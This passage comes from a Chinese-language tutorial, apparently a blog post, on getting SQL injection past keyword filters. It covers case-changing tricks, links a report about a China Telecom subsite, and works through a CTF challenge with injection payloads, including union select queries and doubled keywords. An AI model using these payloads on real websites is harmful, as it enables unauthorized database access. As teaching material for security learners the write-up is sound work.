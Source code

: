 需要做的是将语句进行变通以至于不被过滤，这里是利用**sql语句对大小写不敏感**这个开发人员可能遗漏的点来攻击。

这里给一个漏洞报告：[中国电信某分站SQL注入](https://www.secpulse.com/archives/25964.html) 

给不了靶机环境，这里给一个mysql的演示

<img src="https://www.crabglory.club/img/post/network security/images/sql_inject/sql_inject_upper_case.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="250px"/>





###### 双写绕过

假设开发人员对关键字进行了过滤，对其进行了剪切，再获取到最后的数据，那么就会有这种双字绕过的情况。

这个东西我一直觉得很神奇，会出现这样的情况

看一个实验吧的案例：[简单的sql注入](http://ctf5.shiyanbar.com/423/web/) 

<img src="https://www.crabglory.club/img/post/network security/images/sql_inject/simple_sql_inject.png" />

测试是否可以注入：

```sql
1
-- 报错
1'
-- 正常
1" or 1=1 #
```

猜测这个题应该不是获取root权限，应该是查询数据库的信息。

```sql
-- 查询一下当前数据名字
1" union select database() ; #
```

<img src="https://www.crabglory.club/img/post/network security/images/sql_inject/simple_sql_inject_1.png"  />

发现没有执行注入的语句，而且在id这一块少了union、select，后面实验还可以发现这里少了空格，但database() ;没有变，一直在，说明union、select和空格被过滤了，并且可能开发人员采用拼接的方式执行sql

先试一下

```sql
-- 发现没有过滤，但似乎不能执行了
1"  uniunionon  seleselectct  database(); #
```

<img src="https://www.crabglory.club/img/post/network security/images/sql_inject/simple_sql_inject_2.png" />

因为只有两种双写的方式，**一种是在中间，一种 是在两边**，所以换一种试一下

```sql
-- 继续修改，换一种拼接方式
1"  unionunion  selectselect  database(); #
```

<img src="https://www.crabglory.club/img/post/network security/images/sql_inject/simple_sql_inject_3.png" />
